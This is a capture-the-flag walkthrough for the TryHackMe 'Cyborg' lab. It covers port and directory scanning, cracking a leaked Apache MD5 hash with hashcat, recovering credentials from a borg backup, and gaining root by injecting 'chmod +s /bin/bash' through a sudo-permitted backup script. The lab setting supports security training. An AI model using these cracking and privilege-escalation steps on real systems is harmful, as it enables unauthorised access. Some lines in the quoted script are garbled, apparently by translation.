



[Leer en español](español.md)

# Cyborg - WriteUp/Walkthrought [THM]

## PWNED By 14Wual

[Github](https://github.com/14wual): 14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Web Page](https://14wual.github.com) <br>

## About the Laboratory

**Level**: Easy <br>
**Operating System**: Linux <br>

## Collection

We start by collecting port information with the following `namp` command:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.75.97 -oN nmap.main.txt
```

Output:

```
Not shown: 65502 closed tcp ports (reset), 31 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```

Since we have port 80, we'll start by looking at the web page. This is its content:



We will use the `feroxbuster` tool to find hidden directories.

```
feroxbuster --filter-status 200 -u http://10.10.75.97/
```

Between the ouput lines, we can see the following information:

```
301 GET 9l 28w 310c http://10.10.75.97/admin => http://10.10.75.97/admin/
200 GET 15l 74w 6143c http://10.10.75.97/icons/ubuntu-logo.png
200 GET 375l 968w 11321c http://10.10.75.97/
301 GET 9l 28w 308c http://10.10.75.97/etc => http://10.10.75.97/etc/
200 GET 1l 1w 52c http://10.10.75.97/etc/squid/passwd
200 GET 6l 27w 258c http://10.10.75.97/etc/squid/squid.conf
```

The `/etc` page has a folder called `squid/` with the following contents:



The contents of the files are the following:

`Conf File:`

```
autzh_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentials sttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

`Passwd File:`

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

Also, in the `/admin/` folder, we find a web page. On that web page, if we click on `admins` in the navbar, we will find the following message, which when translated tells us the following:

```
############################################## #### ################################ [Yesterday at 4:32 pm from Josh] Are we all going to watch the game? football on the weekend ############################################## #### ################################ [Yesterday at 4:33 p.m. m. from Adam] Yeah yeah dude I absolutely hope they win! ############################################## #### ################################ [Yesterday at Josh's 4:35 PM] See you there then mate! ############################################## #### ################################ [Alex's 5:45 today] Ok sorry guys I guess I messed something up, uhh, I was messing with the squid proxy I mentioned earlier. I decided to give up like I always do ahahaha sorry about that. I've heard that this proxy stuff is supposed to make your website secure, but I barely know how to use it, so I'm probably making it more insecure in the process. I could pass it on to the IT guys, but in the meantime, all the config files are out there. And since I don't know how it works, I'm not sure how to remove them, I hope they don't contain sensitive information lol. Other than that, I'm pretty sure my "music_archive" backup is safe just to confirm. ############################################## #### #################################
```

If we continue investigating, we can download a `.tar` file in the Archive section, with the following content:


We are going to review all the content of the files, when we `catear` the `home/field/dev/final_archive/config` file, we can see the following output:

```
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
     L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
     2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
     8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
     daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
     oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
     eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
     T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
     vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
     SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
     UCH8bjZLfc1GFsundmVyc2lvbgE=
```

If we read the `readme`, it will take us to the following [borgbackup documentation](https://borgbackup.readthedocs.io/en/stable/)

To install borg:

```
apt install borgbackup
```

If we do the following command:


```
borg create -v --stats final_archive::Saturday2 /home/wual/Documents/pentesting/machines/Cyborg/rep
```

It will ask us for a password, to be able to restore the backup, so we are going to try to decode the password of the web page http://10.10.75.97/etc/squid/passwd. We put the pass in a file and execute the following command:

```
hashcat -a 0 -m 1600 <hash-file> /usr/share/wordlists/rockyou.txt
```

It gives us the following output:

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5(APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Sun May 28 11:13:14 2023 (1 sec)
Time.Estimated...: Sun May 28 11:13:15 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 30549 H/s (6.76ms) @ Accel:64 Loops:500 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39424/14344385 (0.27%)
Rejected.........: 0/39424 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> cheery
Hardware.Mon.#1..: Temp: 85c Util: 95%

Started: Sun May 28 11:12:56 2023
Stopped: Sun May 28 11:13:16 2023
```

We already have the password: `squidward`, now we are going to try to restore so we execute this command:

```
borg mount ../final_archive <output>
```

This is the structure that is mounted in our ouput folder:


Let's go through both `.txt` files.

File: `music_archive/home/alex/Desktop/secret.txt`

```
shoutout to all the people who have gotten to this stage whoop whoop!"
```

File: `music_archive/home/alex/Documents/note.txt`:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
alex:S3cretP@s3
```

We already have a user with which to enter by ssh!

```
ssh-alex@10.10.75.97
alex@ubuntu:~$ ls
Desktop Documents Downloads Music Pictures Public Templates user.txt Videos
alex@ubuntu:~$ cat user.txt
flag{************}
alex@ubuntu:~$
```

If we do a `suco -l` we see the following:

```
User alex may run the following commands on ubuntu:
     (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

And if we cat that same file, we get the following script:

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
   #a="/etc/mp3backups/backed_up_files.txt"
# b=$(basename $input)
   #threw out
# echo "$line"
#done < "$input"

while getopts c: flag
do
case "${flag}" in
c) command=${OPTARG};;
that C
donate


backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/ song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/ song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

threw out

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
threw out
echo "Backup finished"

cmd=$($command)
echo $cmd

```

We are going to try to execute the command: `sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"`, since, from what is read in the script, this is possible.

When executing it, I got an output like this:

```
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5 .mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
```

We can now do the following:

alex@ubuntu:~$ /bin/bash -p
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip) ,46(plugdev),113(lpadmin),128(sambashare),1000(alex)
bash-4.3# cat /root/root.txt
flag{****************}

In this way, we finished the machine, Thank you very much for reaching the end!

